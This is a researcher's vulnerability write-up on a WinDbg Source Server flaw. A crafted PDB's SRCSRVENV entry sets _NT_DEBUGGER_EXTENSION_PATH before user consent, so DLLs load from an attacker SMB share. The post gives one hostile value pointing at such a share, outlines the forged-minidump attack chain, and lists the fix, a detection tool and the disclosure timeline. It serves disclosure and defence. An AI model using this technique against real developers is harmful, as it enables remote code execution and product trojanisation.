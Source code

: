 ```yaml
---
title: Exploiting WinDbg's Source Indexing
author: alexander
date: 2023-08-23 00:34:00 +0800
categories: [Vulnerability, MS]
tags: [srcsrv, rce]
comments_id: 1
image:
  path: /assets/img/1/ppc.png
  alt: SRCSRV Fail

---
```


This attack surface was actually noticed by me back in early days of windows development, somewhat about year 2016. While doing enterprise development, you inevitably need to respond if your product crashes at the end user side, and typical way for windows development is automatic collection of the crash dumps from end user to your company development infrastructure. The implementation of this process may vary, but usually it includes following steps:
1. Generation of crash dump at user side
2. Sending the crash dump to some dump collection server
3. Automatic triage
4. Notify developers about new bug
5. Developer doing manual triage

This process is already very complex and prone to vulnerabilities, but today we will focus on stage #5.

### Risk
Attacks on actual developers are highly dangerous, since this kind of staff usually has local admin rights, as well as access to large portion of source code, code signing certificates, and documentation, including write access to a part of product code. The impact may vary from information leaks to actual trojanization of company products, which will cost enormous sum for a company.


### Vulnerability summary
The vulnerability that we will describe today allows remote attackers to execute arbitrary code on affected installations of Microsoft WinDbg with Source Server client enabled. Access from target host to attacker-supplied SMB-share is required to exploit this vulnerability remotely. The specific flaw exists within the implementation of the SRCSRV Stream processing of pdb file by srcsrv.dll. The issue results from the improper usage of SRCSRVENV variable in SRCSRV stream of pdb file, which allows attacker to set arbitrary environment variable in current WinDbg instance. This behaviour may be abused to trigger DLL hijacking during DbgEngine reinitialization, and result in arbitrary DLL execution, including DLLs accessible by UNC paths, e.g. from an SMB server.

#### Description

**Products affected**

- WinDbg 10.0.19041.685
- Microsoft Source Server (srcsrv.dll) 10.0.19041.685

**Classification**

- Security feature bypass
- Local privilege elevation
- Remote code execution
- Code injection

### Details

WinDbg has feature called Source Indexing which allows developers to embed instructions to WinDbg on how to download source code for specific build of a PE file. These instructions are presented within a form of "ini" file, which can be embedded to a "srcsrv" stream of a PDB file, which is generated by MSVC compiler alongside to executable file, to provide additional debug information for the application. ![Srcsrv stream content example](/assets/img/1/clip_image001.png)

This ini files contain the following main keys:

- SRCSRVCMD - specifies command line template which actually downloads source code, e.g. "tf.exe get …"
- SRCSRVENV - specifies environment variables for SRCSRVCMD in form of "KEY=VALUE"

To mitigate execution of malicious command lines, default configuration of SrcSrv requires user consent before execution, which allows user to decide if the command is safe or not. User also has option (and desire) to turn off those consents permanently:
![Source server consent dialog](/assets/img/1/clip_image003.png)

While having this legacy security measure in place, Srcsrv.dll uses SRCSRVENV value to set environment variable in current WinDbg instance **before** the consent dialog is shown, which renders this security measure ineffective in this scenario.

![Vulnerable code](/assets/img/1/clip_image002.png)


### Remote exploitation scenario
Having all this information, let's plan the remote attack scenario.
Imagine that company X uses dump servers to collect crashdumps from customers for postmortem debugging of their software. Malicious actors craft a PDB file which triggers this vulnerability: they embed a SRCSRV stream to PDB with SRCSRVENV set to
`_NT_DEBUGGER_EXTENSION_PATH=\\192.168.1.2\box\1337\`

![Example setting](/assets/img/1/clip_image004.png)

This specific environment variable is used by Windbg engine as a search path for extension DLLs, which will be explained later.

They also craft a minidump file with a PE file in memory containing forged CV_INFO_PDB70 structure, and a PDB file which triggers this vulnerability. This structure is a standard way to point WinDbg to a location of a PDB file for a PE.

![Default value of PDB path in CV_INFO_PDB70 structure](/assets/img/1/clip_image005.png)

 In this case, attacker sets PdbFileName to a UNC path to SMB share, which contains a .pdb file with a crafted SRCSRV stream. Employee of Company X receives minidump file for crashdump analysis, and opens it in WinDbg, which loads a .pdb file from the SMB share. WinDbg identifies SRCSRV stream from PDB, and passes SRCSRV stream contents to srcsrv.dll SrcSrvExecTokenA function. This function reads SRCSRVENV variable and sets environment variable \_NT_DEBUGGER_EXTENSION_PATH. At this point the vulnerability is triggered. Later it displays consent window, but no matter of user consent, the WinDbg instance has spoiled process environment. After dealing with this crafted minidump, employee of Company X opens any minidump or executable binary (in the current WinDbg instance), and DbgEngine will load extension DLLs from the attacker-supplied SMB share.

![WinDbg loads attacker-supplied DLL](/assets/img/1/clip_image006.png)

Current attack scenario is based on \_NT_DEBUGGER_EXTENSION_PATH variable modification, which is basically a path to WinDbg debugger extensions like ext.dll/ntsdexts.dll/etc. They are being loaded at DbgEngine initialization, so the DLL hijacking will occur if user loads any other dump in current WinDbg instance.

### Root cause and remediation

SRCSRVENV is meant to provide environment variables to SRCSRVCMD command execution, so it must be specified e.g. on lpEnvironment argument of CreateProcess call, not for context of calling process using SetEnvironmentVariable.

**Fix available**

Ensure to use SDK version 10.0.22621.0 and higher.

**For older SDKs**

A tool was released for quick forensic of windows dump files: https://github.com/ph1048/dump_pdb_check
It checks a windows dump file for references of PDBs by malformed or UNC paths. It can be built in your dump server, or used manually,

### Supporting materials & references

Source indexing description: https://docs.microsoft.com/en-us/windows-hardware/drivers/debugger/source-indexing

**Communication history**

- 22 march 2021 – Report submitted to Microsoft
- 22 march 2021 – Report acknowledged by Microsoft
- 2 april 2021 – Problem confirmed by Microsoft
- 7 april 2021 – Bounty was awarded
- 17 july 2021 – Fix in testing
- 27 july 2021 – Plan to release fix in October SDK
- 9 october 2021 – Temporary CVE was assigned CVE-2021-X41358
- 13 october 2021 – MS decided to refuse CVE-2021-41358 registration
- 23 august 2023 – This article is published

